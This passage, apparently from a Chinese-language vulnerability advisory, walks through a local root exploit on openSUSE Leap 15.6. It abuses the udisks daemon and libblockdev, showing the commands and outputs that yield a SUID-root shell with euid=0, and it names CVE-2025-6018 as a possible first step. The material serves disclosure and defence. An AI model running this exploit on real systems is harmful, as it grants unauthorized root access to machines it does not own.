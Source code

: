   
2/ 我们登录目标机器，并确保已认证为 "allow_active" 用户（如果尚未认证，可能需要先利用本公告中的另一个 LPE 漏洞，例如 CVE-2025-6018）：  

```
attacker# ssh -i id_ed25519 nobody@victim


victim> grep PRETTY_NAME= /etc/os-release
PRETTY_NAME=&#34;openSUSE Leap 15.6&#34;


victim> id
uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)


victim> gdbus call --system --dest org.freedesktop.login1 --object-path /org/freedesktop/login1 --method
org.freedesktop.login1.Manager.CanReboot
('yes',)
```

  
3/ 我们设置一个由 XFS 镜像文件支持的 loop 设备，但首先确保 "gvfs-udisks2-volume-monitor" 没有以当前用户身份运行 （否则它会自动挂载我们的 XFS 文件系统，从而阻止 libblockdev 稍后自行挂载）：  

```
victim> killall -KILL gvfs-udisks2-volume-monitor


victim> udisksctl loop-setup --file ./xfs.image --no-user-interaction
Mapped file ./xfs.image as /dev/loop0.
```

  
4/ 我们请求 udisks 守护进程调整 XFS 文件系统的大小，这将强制 libblockdev 在 /tmp 目录下挂载该文件系统而不使用 nosuid 和 nodev 标志。但在此之前，我们先运行一个紧密循环来保持 XFS 文件系统处于忙碌状态，从而防止 libblockdev 稍后将其卸载：  

```
victim> while true; do /tmp/blockdev*/bash -c 'sleep 10; ls -l /tmp/blockdev*/bash' && break; done 2>/dev/null &


victim> gdbus call --system --dest org.freedesktop.UDisks2 --object-path /org/freedesktop/UDisks2/block_devices/loop0
--method org.freedesktop.UDisks2.Filesystem.Resize 0 '{}'
Error: GDBus.Error:org.freedesktop.UDisks2.Error.Failed: Error resizing filesystem on /dev/loop0: Failed to unmount
'/dev/loop0' after resizing it: target is busy


-r-sr-xr-x. 1 root root 1406608 May 13 09:42 /tmp/blockdev.RSM842/bash
```

  
5/ 最后，我们执行位于 /tmp 目录下 XFS 文件系统中的 SUID-root shell，从而获得完整的 root 权限：  

```
victim> mount
...
/dev/loop0 on /tmp/blockdev.RSM842 type xfs (rw,relatime,attr2,inode64,logbufs=8,logbsize=32k,noquota)


victim> /tmp/blockdev*/bash -p


victim# id
uid=65534(nobody) gid=65534(nobody) euid=0(root) groups=65534(nobody)
                                    ^^^^^^^^^^^^
```
